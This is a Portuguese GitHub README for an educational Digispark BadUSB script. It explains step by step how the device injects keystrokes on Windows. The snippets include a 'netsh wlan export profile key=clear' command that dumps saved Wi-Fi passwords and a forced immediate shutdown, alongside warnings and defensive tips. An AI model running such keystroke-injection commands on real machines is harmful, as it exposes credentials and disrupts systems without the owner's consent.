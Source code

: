 # 🐚 Digispark BadUSB Awareness

Este repositório contém um **script educativo para Digispark**, criado para fins de conscientização e demonstração de riscos de BadUSB.

---

## ⚠️ AVISO IMPORTANTE

Este código **simula ataques BadUSB** e pode ser potencialmente perigoso se usado em sistemas sem autorização.

> ❗ **Nunca utilize este script em computadores sem permissão explícita.**
> Ele deve ser usado apenas para fins educativos e de conscientização.

---

## 🔍 O que o código faz — Explicado passo a passo

O script demonstra como um Digispark pode automatizar comandos no Windows de forma silenciosa, simulando um teclado:

### 1. Inicialização
```c
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(1500);
```
- Inicializa o teclado virtual do Digispark e aguarda reconhecimento pelo sistema.

### 2. Abrir o Bloco de Notas e exibir mensagem de alerta
```c
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
DigiKeyboard.print("notepad");
```
- Abre o Bloco de Notas e escreve uma **mensagem educativa**, alertando sobre riscos de BadUSB.

### 3. Abrir navegador
```c
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
DigiKeyboard.print("www.google.com");
```
- Abre o navegador padrão e acessa o Google.

### 4. Abrir CMD e exportar perfis Wi-Fi
```c
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
DigiKeyboard.print("cmd");
DigiKeyboard.print("netsh wlan export profile key=clear");
```
- Mostra como um atacante poderia acessar **senhas de redes Wi-Fi** (para fins educativos).

### 5. Desligamento do computador
```c
DigiKeyboard.print("shutdown -s -t 0");
```
- Executa **desligamento imediato**, demonstrando controle remoto total via USB.

---

## ✅ Exemplos de uso educativo

- Treinamentos internos de segurança da informação.
- Demonstração de riscos de BadUSB para equipes.
- Estudos de conscientização e prevenção de ataques.

---

## 🛡️ Proteção recomendada

- Nunca conecte dispositivos USB desconhecidos.
- Monitore e restrinja o uso de dispositivos programáveis na empresa.
- Eduque colaboradores sobre engenharia social e ataques USB.

---

## 🧑‍💻 Autor

- [Jadson Lima](#)  
> Projeto educativo e de conscientização.

---

## 📄 Licença

Distribuído sob a [GNU GPL v3](https://www.gnu.org/licenses/old-licenses/gpl-3.0.html).

